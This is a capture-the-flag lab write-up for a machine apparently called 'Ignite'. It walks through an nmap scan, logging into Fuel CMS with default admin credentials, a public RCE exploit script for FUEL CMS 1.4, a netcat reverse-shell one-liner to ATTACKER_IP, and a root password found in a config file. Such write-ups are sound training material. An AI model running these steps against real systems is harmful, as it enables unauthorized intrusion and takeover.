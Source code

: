 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

### [ User.txt ]

Firstly, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving **Apache httpd 2.4.18**. An interesting thing to note is that there is a disallowed entry **'/fuel/'** in the **robots.txt** file.

Navigating to the HTTP website, we see a **Fuel CMS** webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that was left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is **admin:admin**! Furthermore, the admin page for Fuel can be found in **/fuel**. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on "**Click here for your site documentation**", we can see that the site is running **FUEL CMS 1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`. The command used is:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

![screenshot14](../assets/images/ignite/screenshot14.png)

Seems like we just have to change the `url` to the victim's IP address. Also, note that the code runs the connection through Burp Proxy, which we will remove as we are not using any proxy. Finally, to allow for compatibility with Python3, I had to make the following changes:

`raw_input()` to `input()`

`quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

`print r.text[0:dup]` to `print(r.text[0:dup])`

The modified script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit with a simple `whoami` command, we can see that it works:

![screenshot16](../assets/images/ignite/screenshot16.png)

Now, we'll try setting up a **reverse shell**. Using **pentestmonkey's** [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

**user.txt** can be found in www-data's **home** directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the **root** password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is: **mememe**

With the root password, we can then log in as root and obtain **root.txt** located in **/root**.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error **"must be run from a terminal"** kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account.

![screenshot23](../assets/images/ignite/screenshot23.png)
